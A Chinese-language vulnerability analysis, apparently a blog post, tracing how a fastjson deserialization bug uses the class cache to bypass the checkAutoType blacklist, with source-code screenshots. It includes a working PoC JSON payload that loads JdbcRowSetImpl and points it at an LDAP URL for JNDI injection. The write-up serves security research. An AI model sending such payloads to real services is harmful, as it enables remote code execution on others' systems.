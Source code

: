 这个版本之前的漏洞都必须要在开启 AutoTypeSupport 的情况下才能利用。由于fastjson会将一些基本类型的类对象提前放到mappings中缓存，通过类缓存机制可以绕过黑白名单检测该版本中，通过利用类缓存机制（通过java.lang.Class类提前带入恶意类并缓存到 TypeUtils.mappings 中），可以在不开启 AutoTypeSupport 的情况下进行反序列化的利用。（漏洞点在 checkAutoType 中）

##### poc

```java
JSON.parseObject("[{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:10389/cn=test,dc=example,dc=com","autoCommit":true}]");
```

默认使用的是`DefaultJSONParser.parser`

![image-20220614181358097](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220614181358097.png)

使用lexer这个词法分析器检测到`@type`之后,会调用`checkAutoType`

![image-20220614181943820](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220614181943820.png)

主要的点还是在`checkAutoType`中

![image-20220614185549671](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220614185549671.png)

经过前面对poc的基础判断之后,会进入`deserializers.findClass`,这里实际上是去一个桶里面找有没有对应的类,如果类名equal则返回这个类

![image-20220614183113141](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220614183113141.png)

桶里面存了一堆类

![image-20220614185937978](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220614185937978.png)

获取到java.long.Class类之后会返回到

DefaultJSONParser中继续执行

获取到`MiscCodec`这个类之后,调用`deserialize`方法

![image-20220614190503311](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220614190503311.png)

在这个方法中,获取到了val对应的值`com.sun.rowset.JdbcRowSetImpl`

并且在这个if中进行了类加载

![image-20220614191433526](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220614191433526.png)

![image-20220614192231949](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220614192231949.png)

![image-20220614192924962](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220614192924962.png)

这里的第三个参数`cache`为`true`很重要,这样加载完的类就会存储到之前的`mapping`中,此时`com.sun.rowset.JdbcRowSetImpl`就存储在了`getClassFromMapping`这个方法对应的`mapping`中

接下来继续解析字符串,检测到左侧大括号,调用`paseObject`,实际上还是调用的`DefaultJSONParser#parseObject`

![image-20220614193252144](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220614193252144.png)
